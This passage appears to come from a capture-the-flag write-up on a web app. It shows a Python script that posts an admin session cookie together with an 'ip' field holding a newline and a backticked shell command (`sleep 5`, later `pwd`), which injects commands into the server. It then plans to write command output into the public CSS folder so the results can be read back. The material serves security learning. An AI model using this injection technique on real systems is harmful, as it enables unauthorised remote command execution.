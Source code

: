 ```python
def inject_command(cookie):

    admin_cookie = { 'rack.session' : cookie }

    payload = { 'id'   : '1'
              , 'name' : 'webmail'
              , 'ip'   : '192.168.3.10\n`sleep 5`'
              , 'ttl'  : '600'
              }

    resp = requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    print(resp.text)

def help():
    print(__doc__, file=sys.stderr)
    exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        help()

    with open(sys.argv[1]) as file:
        cookie = file.read().rstrip()

        inject_command(cookie)

```

The server delayed in our response. Let's parameterize the command 
in our script and try to get the results of `pwd`.

Running our script with the `pwd` command resulted in a this response:

```html
<div class="alert-message error">
incorrect section name: &#x2F;var&#x2F;www
syntax error
</div>
```

So now we know we're in the `/var/www/` folder in the server. However when we 
do `ls` or anything wil multile lines of output we're gonna be limited 
to seeing only the first thing. So let's try to output the results of the 
command into a publicly reachable file then pull down that file and print it. 

First, we need to find out where the public files are stored. We know we can 
pull down the style sheets no problem, so we should output the results into the same folder. 

![css-file](images/css-files.png)
